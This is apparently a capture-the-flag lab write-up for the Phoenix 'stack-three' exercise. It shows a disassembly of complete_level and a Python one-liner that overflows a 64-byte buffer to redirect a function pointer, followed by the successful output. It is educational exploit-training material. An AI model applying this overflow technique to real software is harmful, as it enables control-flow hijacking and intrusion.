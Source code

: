# stack-three

```console
gef➤  disassemble complete_level 
Dump of assembler code for function complete_level:
   0x000000000040069d <+0>:     push   rbp
   0x000000000040069e <+1>:     mov    rbp,rsp
   0x00000000004006a1 <+4>:     mov    edi,0x400790
   0x00000000004006a6 <+9>:     call   0x4004f0 <puts@plt>
   0x00000000004006ab <+14>:    mov    edi,0x0
   0x00000000004006b0 <+19>:    call   0x400510 <exit@plt>
End of assembler dump.
```

We can see that the function complete_level starts at address 0x40069d. What we can do here is to overflow locals.buffer and overwrite the function pointer fp so that it points to complete_level, i.e., the address 0x40069d.

```console
user@phoenix-amd64:/opt/phoenix/amd64$ python -c 'print("A"*64 + "\x9d\x06\x40")' | ./stack-three 
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```
